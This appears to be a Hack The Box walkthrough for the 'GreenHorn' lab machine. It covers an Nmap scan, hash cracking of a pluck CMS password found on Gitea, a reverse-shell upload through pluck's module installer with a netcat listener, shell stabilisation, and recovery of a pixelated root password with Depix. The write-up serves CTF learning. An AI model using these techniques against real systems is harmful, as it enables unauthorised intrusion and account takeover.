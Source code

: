 ```yaml
---
title: GreenHorn
tags:
  - Linux
  - Gitea
  - Image-altering
  - pluck
---
```

![](Pasted%20image%2020240831134445.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.25 greenhorn.htb" | sudo tee -a /etc/hosts
```

Then, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- greenhorn.htb > sC.txt

[redacted]
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 13:49 CEST
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
| http-title: Welcome to GreenHorn ! - GreenHorn
|_Requested resource was http://greenhorn.htb/?file=welcome-to-greenhorn
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-generator: pluck 4.7.18
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 16.94 seconds
```

Once here, I wanted to know what was running behind port 3000, so I performed a second Nmap scan:

```shell
nmap -sV -T4 -p3000 greenhorn.htb > 3000.txt

[redacted]
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=8/31%Time=66D30413%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,2A60,"HTTP/1\.0\x20200\x20OK\r\nCache-Contr
SF:ol:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_git
SF:ea=03590820c397ed70;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Coo
SF:kie:\x20_csrf=4zHg6DP56G3gshFrNeJnU_59YzE6MTcyNTEwNTE3MjQ3NzU1NjE0MQ;\x
SF:20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Opt
SF:ions:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2031\x20Aug\x202024\x2011:52:52\x
SF:20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"the
SF:me-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x
SF:20rel=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR
SF:3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6
SF:Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmh
SF:vcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLC
SF:JzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvY
SF:X")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Method\x20Not\x20All
SF:owed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control:\x20max-age=0,
SF:\x20private,\x20must-revalidate,\x20no-transform\r\nSet-Cookie:\x20i_li
SF:ke_gitea=52cab2608e5c1e43;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nS
SF:et-Cookie:\x20_csrf=RFSsje4aI_Ju3Mo11zKJxHEhGTc6MTcyNTEwNTE3NzgyMzY2MjY
SF:3Mg;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fra
SF:me-Options:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2031\x20Aug\x202024\x2011:5
SF:2:57\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\
SF:.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=
SF:utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
```

I decided to take a look at the website at port 80:

![](Pasted%20image%2020240831135058.png)

I didn't find anything interesting, so I decided to take a look at port 3000:

![](Pasted%20image%2020240831140733.png)

Gitea was found!, so I created a user inside:

![](Pasted%20image%2020240831140823.png)

Once in, I looked up for the GreenHorn source code:

![](Pasted%20image%2020240831141300.png)

![](Pasted%20image%2020240831141316.png)

I discovered a `login.php` file, which had the following:

![](Pasted%20image%2020240831141844.png)

So I took a look at that specific file, which had the passwd stored in sha512:

![](Pasted%20image%2020240831141935.png)

I took a look at [https://crackstation.net/](https://crackstation.net/) and this was the output:

![](Pasted%20image%2020240831142043.png)

So now, I can login into `login.php`:

![](Pasted%20image%2020240831142244.png)

We're in:

![](Pasted%20image%2020240831142914.png)

So it's time to get a reverse shell.

## Weaponization

Found this RCE script: [https://www.exploit-db.com/exploits/51592](https://www.exploit-db.com/exploits/51592)

## Exploitation

Go to `options` >> `manage modules` >> `Install a module`:

![](Pasted%20image%2020240831145228.png)

Then upload a `.zip` file containing a php reverse shell:
1. Create a `.php` reverse shell
2. Zip it: `zip result.zip shell.php`
3. Start a netcat listener: `nc -lvnp PORT`
4. Upload it:

![](Pasted%20image%2020240831145826.png)

> We've got a shell :D

![](Pasted%20image%2020240831145854.png)

Stabilise it with:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

> Sadly we've got no read permissions onto `user.txt` flag:

![](Pasted%20image%2020240831150110.png)

>After some time searching, I managed to use the pluck password with the junior account (*kinda noobie btw xd*)

> Got the user flag!:

![](Pasted%20image%2020240831150958.png)

## Privilege Escalation

I downloaded onto my machine the **'Using OpenVAS.pdf'**

![](Pasted%20image%2020240831151715.png)

Now, we can try to eliminate the pixels in the password using `pdfimage`:
- Install with `apt-get install poppler-utils`

```shell
pdfimages Using\ OpenVAS.pdf greenhornhtb
```

We get this result:

![](Pasted%20image%2020240831152138.png)

Now we can use a tool called [Depix](https://github.com/spipm/Depix) to eliminate those pixels on the image:

```shell
python3 depix.py -p ../greenhornhtb-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ../result.png
```

We get this ouput:

![](result.png)

So let's try this password for the user root:

`root:sidefromsidetheothersidesidefromsidetheotherside`

![](Pasted%20image%2020240831152902.png)

> We got the root flag :D

==Machine pwned!==